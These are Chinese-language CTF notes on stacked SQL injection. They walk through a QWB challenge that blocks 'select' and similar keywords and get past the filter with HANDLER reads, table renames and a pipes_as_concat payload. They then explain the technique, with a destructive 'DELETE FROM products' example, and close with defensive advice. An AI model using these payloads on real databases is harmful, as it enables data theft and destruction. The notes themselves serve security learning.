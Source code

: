 强网杯随便注，禁用了preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

```
1';show databases--+
-1';show databases;#  让前面闭合，然后一起回显，注意有时后面要有;
1'and extractvalue(1,concat(0x7e,(database())))--+
1';show tables;--+ 查看到表words和1919810931114514

看字段
-1';use supersqli;show columns from `1919810931114514`;#
1'; show columns from `words`;--+
1'; show columns from `1919810931114514`;--+

直接读表字段的值，知道1919810931114514表有flag字段
1'; handler
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

利用原有的回显，把flag表改名过去。
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#


```
>Handler语法:
handler语句，一行一行的浏览一个表中的数据
handler语句并不具备select语句的所有功能。
mysql专用的语句，并没有包含到SQL标准中。
HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。
1、HANDLER tbl_name OPEN
打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
2、HANDLER tbl_name READ FIRST
获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
3、HANDLER tbl_name CLOSE
关闭打开的句柄。
4、HANDLER tbl_name READ index_name = value
通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

^
```
post中：
query=1;show databases;
query=1;show columns from Flag;#

猜测语句
select $_GET['query'] || flag from flag

payload：
query=*,1
或
query=1;set sql_mode=pipes_as_concat;select 1
```

堆叠注入（Stacked Injection）是一种 SQL 注入攻击技术，其中攻击者利用应用程序对用户输入的不安全处理，将多个 SQL 查询或命令堆叠在一起，以达到执行多个恶意操作的目的。

通常情况下，SQL 注入攻击是通过在应用程序接受用户输入的地方注入恶意的 SQL 代码来实现的。但在某些情况下，应用程序可能会接受并处理多个用户输入，并将它们拼接成一个或多个 SQL 查询或命令。攻击者可以利用这种情况来构造堆叠注入攻击。



堆叠注入在mysql数据库中并不常见，常见于mssql数据库，mssql数据库是默认堆叠注入的。
```
如用户输入：1; DELETE FROM products
服务器端生成的sql语句为：Select * from products where productid=1;DELETE FROM products
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
危害巨大。
可以使用盲注，布尔，验证是否存在堆叠注入。
```
<https://kitescat.github.io/2023/05/06/SQL%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5/index.html>

## **场景**

例如，考虑以下伪代码：

```
username = getRequestParameter("username")
password = getRequestParameter("password")

sql_query = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
executeQuery(sql_query)
```

在这个例子中，应用程序接受了用户名和密码作为输入，并将它们拼接成一个 SQL 查询。如果应用程序没有对输入进行适当的验证和过滤，攻击者可以构造特定的输入，以便在用户名和密码字段中注入额外的 SQL 代码，从而实现堆叠注入攻击。

例如，攻击者可以构造以下输入：

```
username: ' OR 1=1; --
password: anything
```

这样，拼接后的 SQL 查询将变成：

```
SELECT * FROM users WHERE username='' OR 1=1; --' AND password='anything'
```

这将导致应用程序忽略密码验证，直接返回所有用户的记录，因为 `OR 1=1` 的条件始终为真。通过堆叠注入，攻击者可以绕过认证并执行恶意操作，比如获取敏感信息或者修改数据库内容。

要防止堆叠注入攻击，开发人员应该采取一系列的安全措施，包括使用参数化查询、合适的输入验证、过滤和转义来防止 SQL 注入。此外，最好避免将多个用户输入直接拼接成 SQL 查询或命令，而是使用安全的编程实践来处理用户输入。

